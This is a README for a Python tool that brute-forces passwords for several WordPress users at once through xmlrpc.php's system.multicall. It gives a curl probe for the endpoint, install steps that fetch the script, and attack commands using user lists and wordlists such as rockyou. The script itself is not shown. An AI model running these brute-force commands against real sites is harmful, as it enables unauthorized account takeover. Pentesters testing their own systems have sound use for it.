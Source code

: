# WP Multi-User Bruteforce
Python 3 script for bruteforcing multiple Wordpress users using only one request per password.

<img src="xmlrpc.png" alt="basic usage" width="600"/>


## How does it work?


The [Hacktrick's Wordpress Pentesting Guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#xml-rpc) mentions that, if xmlrpc.php is enabled, Bruteforcing and DoS attacks can be used by abusing the system functionalities, including trying multiple users with **only one request**, using the `system.multicall` function (see [here](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FILyTlmNzv1D9YhHQAJo2%2Fimage.png?alt=media&token=5aa88cc4-baa0-4e54-87c1-2cc31203199d)).


## Testing the vulnerability


Run this command, replacing `wordpress-blog.com` with your website:


```
curl -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" -X POST http://wordpress-blog.com/xmlrpc.php
``` 

See if the response is an XML with all functionalities available, like: 


```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  [...]
```


If yes, it's probably vulnerable.


## Installation


```
pip install requests
curl https://raw.githubusercontent.com/entr0pie/xmlrpc-multi-request/main/xmlrpc.py | tee xmlrpc.py 
```


## Usage


### Basic Usage:


```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader
```


### Setting an wordlist:


```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt
```


### Start the bruteforce with an specific word inside the wordlist:


```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt --word=super_secure_password
```


### Using the config.json file:


By default, xmlrpc.py saves in the `config.json` the last session:


```
{
    "host":"http://your-blog.com/xmlrpc.php",
    "users":"['admin', 'editor', 'reader']",
    "wordlist":"/usr/share/wordlists/rockyou.txt",
    "word":"mcfly",
    "debug":"False"
}
```


You can replay that session running:


```
python3 xmlrpc.py --config config.json
``` 


## License


This project is under [GNU GPLv3](LICENSE).
